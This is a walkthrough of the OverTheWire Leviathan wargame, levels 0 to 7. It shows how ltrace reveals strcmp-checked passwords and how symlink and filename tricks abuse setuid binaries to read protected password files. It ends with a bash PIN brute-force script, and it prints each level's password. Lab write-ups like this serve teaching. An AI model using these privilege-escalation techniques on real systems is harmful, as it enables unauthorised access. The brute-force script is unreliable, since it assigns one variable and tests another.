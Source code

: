 ## leviathan wargame
### leviathan0
Connect leviathan0 with ssh
```
$ ssh leviathan.labs.overthewire.org -p 2223 -l leviathan0
leviathan0
```
### leviathan1
Open the *.bookmarks.html* file in *.backup* directory and look for *pass* string
```
$ grep pass .backup/bookmarks.html
...
rioGegei8m
...
```
### leviathan2

I googled about priviledge escalation with suid binaries for about an hour or two but nothing to show for it.
Finally I found this [geekstuff/reverse_engineering_tools](https://www.thegeekstuff.com/2012/03/reverse-engineering-tools/)
I tried the `ltrace` and found that *check* program compares the user input with *strcmp* function
```
$ ltrace ./check
...
strcmp("asdf\n", "sex")
...
```
After providing the correct password suid program spawn a shell with priviledged rights
```
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

### leviathan3
There is a suid program named, it prints files with checking permissions.
Examine the program w,th `ltrace`
```
$ ltrace ./printfile /etc/hostname
```
It checks the access permissions with `access()` function but there is a vulnerability about the `""`
while calling `/bin/cat` program.

Make a file with blank in its name and make a symbolic link with one of its parts
```
$ mkdir /tmp/xx
$ cd /tmp/xx
$ touch test\ pass3
$ ln -s /etc/leviathan_pass/levitahan3 pass3
```
Test the program
```
$ ~/printfile "test pass3"
Ahdiemoo1j
```

### leviathan4

There is a suid program check it out.
```
$ ./level3
Enter the password> aaaaa
bzzzzzzzzap. WRONG
```
Examine with ltrace
```
$ ltrace ./level3
...
strcmp("\n", "snlprintf\n")
...
```
`strcmp()` compares `snlprintf` with user input.
Use it as password;
```
$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
```

### leviathan5
There is a hidden `.trash` directory and a binary ,n this file
When it is executed it prints the 1's and 0's.

```
$ .trash/bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
```
Examine the binary with `ltrace`
```
$ ltrace .trash/bin
...
fopen("/etc/leviathan_pass/leviathan5", "r")
...
```
It opens leviatha5's password file but in binary format
Convert it online or in terminal, password is
```
Tith4cokei
```
### leviathan6

There is a suid program in home directory.

First execute it.
```
$ ./leviathan5
Cannot find /tmp/file.log
```
After that examine it with `ltrace`
```
$ ltrace ./leviathan5
...
fopen("/tmp/file.log", "r")
...
```
It wants to read a file in `/tmp` directory. If a symbolic link is created as same name with pointing to leviathan6 password file, the password can be read. Let's try;
```
$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
$ ./leviathan5
UgaoFee4li
```

# leviathan7
There is a suid program that checks pin code provided by an argumment to the program.
```
$ ./leviathan6 0001
Wrong
```
A simple script to do a brute force attack to this pincode can work.
```
bash
#!/bin/bash
for PIN in {7000..9999}
do
	T=$(~/leviathan6 $PIN)
	if [[ $TEST != *"Wrong"* ]];
	then
		echo $TEST
		echo "gotcha  $PIN" | tee /tmp/ao3506/pass7
		break
	fi
	echo "$TEST $PIN"
	TEST=""
done

```
When the attack script is executed it hangs at *7122*
Try this pincode and *7123* with the suid program.
```
$ ~/leviathan6 7122
Wrong
$ ~/leviathan6 7123
$ whoami
leviathan7
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```
